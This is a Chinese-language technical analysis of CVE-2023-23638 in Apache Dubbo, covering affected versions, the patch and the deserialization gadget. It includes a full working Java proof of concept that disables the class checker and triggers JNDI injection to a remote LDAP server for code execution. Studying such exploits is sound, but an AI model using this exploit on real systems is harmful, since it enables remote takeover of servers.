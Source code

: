 - [CVE-2023-23638 Apache Dubbo 远程代码执行漏洞](#cve-2023-23638-apache-dubbo-远程代码执行漏洞)
  - [影响范围](#影响范围)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [补丁分析](#补丁分析)
    - [volatile SerializeClassChecker INSTANCE](#volatile-serializeclasschecker-instance)
    - [覆盖SerializeClassChecker](#覆盖serializeclasschecker)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-23638 Apache Dubbo 远程代码执行漏洞
## 影响范围
```
2.7.0~2.7.21
3.0.0~3.0.13
3.1.0~3.1.5
```
## 环境搭建
```java
package com.demo.api;

public interface userInterface {
    String say(String mes);
}

package com.demo.apiImpl;

import com.demo.api.userInterface;

public class userServer implements userInterface {
    @Override
    public String say(String mes) {
        return mes;
    }
}
```
## 原理分析
### 补丁分析
在通告中说是一条因为泛化调用时反序列化的新Gadgets,关于泛化调用的RCE原来可以参考CVE-2021-30179,但在分析2.7.22的补丁时发现内置的黑白名单并没有变化,从commit中可以看到修改记录是`Add serializable check for pojo`.  
![](2023-03-23-11-11-11.png)  
从这可以看到漏洞触发应该是在PojoUtils这个泛化调用的分支中,查看PojoUtils类的修改,发现在Map类型的pojo处理流程中增加了对class.forName之后的Type是否是可序列化类的检查.
![](2023-03-23-11-14-19.png)   
![](2023-03-23-11-14-35.png)  
而在pojiUtil处理Map类型的pojo时最后可以看到这个这个type不是接口,Map,枚举类型时进入else分支,会有一个实例化该type对象并调用其属性的setter方法的过程,其中如果有setter方法就调用其setter方法,没有的话则会通过Field设置该属性.  
![](2023-03-23-11-19-55.png)  
那么这里的触发原理则和FastJson的原理是一致的,可以考虑使用`JdbcRowSetImpl`来JNDI注入.  
但是这个type在使用classForname获取时classname首先会经过`SerializeClassChecker.getInstance().validateClass((String) className);`进行检查,其中的黑名单已经封禁了这些利用类,而从补丁来看,这个漏洞并不是出现了新的利用类,而是序列化了一个不在黑名单中且没有实现序列化接口的类造成的漏洞.
### volatile SerializeClassChecker INSTANCE
回头来看这个SerializeClassChecker类,在每次使用SerializeClassChecker检查类时都会调用其getInstance()获取一个实例对象然后调用validateClass方法来检查类名是否合法,而其`getInstance()`方法如下
![](2023-03-23-11-30-39.png)  
可以看到当`Instance`不存在时会新建一个`SerializeClassChecker`对象,如下存在则直接返回.  
![](2023-03-23-11-34-24.png)  
而这个Instance的声明中有一个关键字`volatile`,`volatile`关键字用于保证在内存中该变量对所有线程都共享可见,也就是说这个`Instance`是一个单例模式,所有线程的`SerializeClassChecker`实例都共享同一个`Instance`,对`Instance`的修改会立刻同步给所有其它线程.
![](2023-03-23-11-29-04.png)  
### 覆盖SerializeClassChecker
现在就有一种思路則是自己创建一个`SerializeClassChecker`,然后修改其`Instance`来覆盖原有的`SerializeClassChecker Instance`,根据`validateClass`的处理流程.  
![](2023-03-23-12-46-27.png)
可以考虑直接修改该`SerializeClassChecker Instance`的`OPEN_CHECK_CLASS`为false来关闭检查,或者在白名单中添加恶意类,利用Field机制会自动给`SerializeClassChecker`的这些属性赋值.
## 漏洞复现 
构造POC需要注意hessian2在序列化时会检查类是否实现了序列化接口,可以通过`System.setProperty("dubbo.hessian.allowNonSerializable","true");`来关闭.

```java
package exp;

import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;
import org.apache.dubbo.common.utils.SerializeClassChecker;
import sun.misc.Unsafe;


import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.Socket;
import java.util.*;

public class CVE_2023_23638 {
    private static String jndiurl = "ldap://192.168.91.1:1389/g3nj0p";
    private static String ip = "192.168.1.115";
    private static int port =20880;
    private static String inter = "com.demo.api.userInterface";
    private static String method = "say";
    private static Object params = new String[] {"java.lang.String"};
    public static void main(String[] args) throws IOException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);
        System.setProperty("dubbo.hessian.allowNonSerializable","true");
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        // set body
        out.writeUTF("2.7.8");
        //todo 此处填写Dubbo提供的服务名
        out.writeUTF(inter);
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        //todo 此处填写Dubbo提供的服务的方法
        out.writeUTF(method);
        out.writeObject(params);
        Constructor<Unsafe> constructor = Unsafe.class.getDeclaredConstructor();
        constructor.setAccessible(true);
        Unsafe unsafe = constructor.newInstance();
        SerializeClassChecker serializeClassChecker = (SerializeClassChecker)
                unsafe.allocateInstance(SerializeClassChecker.class);
        Field f =
                SerializeClassChecker.class.getDeclaredField("OPEN_CHECK_CLASS");
        f.setAccessible(true);
        f.set(serializeClassChecker,false);
        Map<Object,Object> map1 = new HashMap<Object, Object>();
        map1.put("class","org.apache.dubbo.common.utils.SerializeClassChecker");
        map1.put("INSTANCE",serializeClassChecker);
        Map<Object,Object> map2 = new LinkedHashMap<Object, Object>();
        map2.put("class","com.sun.rowset.JdbcRowSetImpl");
        map2.put("dataSourceName",jndiurl);
        map2.put("autoCommit",true);
        List list = new LinkedList();
        list.add(map1);
        list.add(map2);
        out.writeObject(new Object[]{list});
        HashMap<String,String> map = new HashMap();
        map.put("generic", "true");
        out.writeObject(map);
        out.flushBuffer();
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();
        //todo 此处填写Dubbo服务地址及端口
        Socket socket = new Socket(ip, port);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
获取到SerializeClassChecker class并实例化该对象.
![](2023-03-23-12-53-27.png)  
基于Filed机制set相关属性,在poc中选择的是关闭检查,即设置`OPEN_CHECK_CLASS`为Flase.
![](2023-03-23-12-57-11.png)  
当反序列化第二个map时,此时的`Instance`已经是我们修改过的`SerializeClassChecker`.  
![](2023-03-23-13-00-38.png)
检查时会直接返回  
![](2023-03-23-13-00-52.png)    
然后就可以通过setter方法来触发jdbcRowSet利用类了.  
![](2023-03-23-13-02-22.png)  
![](2023-03-23-13-04-00.png)  
## 补丁
对type添加了是否实现了序列化接口的检查,也就是禁止了`SerializeClassChecker`实例的创建.
## 参考
https://github.com/X1r0z/CVE-2023-23638